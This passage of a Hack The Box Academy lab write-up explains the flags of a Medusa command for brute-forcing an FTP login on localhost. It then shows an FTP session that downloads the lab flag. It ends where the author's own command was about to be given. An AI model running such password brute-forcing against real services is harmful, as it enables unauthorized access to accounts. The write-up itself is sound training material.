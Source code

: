 The key differences here are:

- `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
- `-u ftpuser`: Specifies the username `ftpuser`.
- `-M ftp`: Selects the FTP module within Medusa.
- `-t 5`: Increases the number of parallel login attempts to 5.

### Retrieving The Flag

Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the `get` command to download the `flag.txt` file, which may contain sensitive information.:

```shell
gitblanc@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```

Then read the file to get the flag:

```shell
gitblanc@htb[/htb]$ cat flag.txt
HTB{...}
```

The ease with which such attacks can be executed underscores the importance of employing strong, unique passwords.

>[!Example]
>The academy exercise for this section

I crafted the following medusa command:
